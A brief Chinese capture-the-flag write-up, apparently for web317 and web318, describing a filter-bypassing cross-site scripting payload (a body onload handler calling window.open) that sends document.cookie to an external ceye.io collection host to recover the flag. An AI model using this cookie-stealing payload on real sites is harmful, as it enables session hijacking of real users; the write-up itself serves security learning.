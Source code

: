 ### web317

用上一次的payload试了一下，不行。

因为带有过滤了

思路：用body语句生成可绕过过滤的payload：

```
<body onload="window.open('http://hi8y3b.ceye.io/'+document.cookie)"></body>
```

此时会因为window.open()的作用弹出新的窗口，上面写着

```
{"meta": {"code": 201, "message": "HTTP Record Insert Success"}}
```

说明消息发送成功，那XSS应该也反弹生效了，回ceye查看后台可获得flag

![](.\XSS\图片\web317.png)



### web318

过滤条件增加了

```
<body onload="window.open('http://hi8y3b.ceye.io/'+document.cookie)"></body>
```

这个payload依旧管用，先用着。

